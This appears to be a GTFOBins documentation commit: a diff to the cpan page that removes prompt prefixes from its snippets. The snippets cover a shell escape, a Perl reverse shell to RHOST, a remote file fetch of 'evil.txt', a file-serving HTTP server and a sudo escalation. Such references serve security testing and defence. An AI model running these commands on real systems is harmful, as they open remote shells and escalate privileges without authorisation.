

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cpan.md, in a window 1280 px wide. Shown: the whole page at 84% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
made fixes, thanks to egre55

```diff
--- a/_gtfobins/cpan.md
+++ b/_gtfobins/cpan.md
@@ -3,30 +3,30 @@ functions:
   shell:
     - description: cpan lets you execute perl commands with `! command`
       code: |
-        $ cpan
-        cpan[1]> ! exec '/bin/bash'
+        cpan
+        ! exec '/bin/bash'
 
   reverse-shell:
     - description: Run ``nc -lvp RPORT`` on the attacker box to receive the shell.
       code: |
-        $ cpan
-        cpan[1]> ! use Socket; my $i="RHOST"; my $p=RPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
+        cpan
+        ! use Socket; my $i="RHOST"; my $p=RPORT; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
 
   file-upload:
     - description: Serve files in the local folder running an HTTP server on port 8080. Install dependency via `cpan HTTP::Server::Simple`.
       code: |
-        $ cpan
-        cpan[1]> ! cpan[1]> ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
+        cpan
+        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
 
   file-download:
     - description: Fetch a remote file via HTTP GET request and store it in PWD.
       code: |
-        $ cpan
-        cpan[1]> ! use File::Fetch; my $file = (File::Fetch->new(uri => 'http://RHOST/evil.txt'))->fetch();
+        cpan
+        ! use File::Fetch; my $file = (File::Fetch->new(uri => 'http://RHOST/evil.txt'))->fetch();
 
   sudo:
     - code: |
-        $ sudo cpan
-        cpan[1]> ! exec '/bin/bash'
+        sudo cpan
+        ! exec '/bin/bash'
 
 ---
```
